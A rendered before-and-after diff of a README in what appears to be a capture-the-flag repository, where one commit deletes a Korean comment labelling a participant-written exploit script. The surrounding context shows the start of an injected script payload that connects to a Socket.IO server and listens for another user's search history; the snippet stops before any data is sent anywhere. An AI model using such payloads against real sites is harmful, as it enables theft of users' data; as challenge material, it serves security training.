

Before and after one commit to soeun-727/Cat-Distribution-System, a Markdown page: README.md, the part around the change. Drawn GitHub-style.

````diff
--- a/README.md
+++ b/README.md
@@ -23,7 +23,6 @@
         ```html
         <script src="http://127.0.0.1:5000/static/js/socket.io.min.js"></script>
         <script>
-        // exploit.js (참가자가 작성)
         const socket = io("http://web:5000"); // Socket.IO 연결
         socket.on('connect', () => socket.emit("READY", {}));
         socket.on('search_history', (data) => {
````
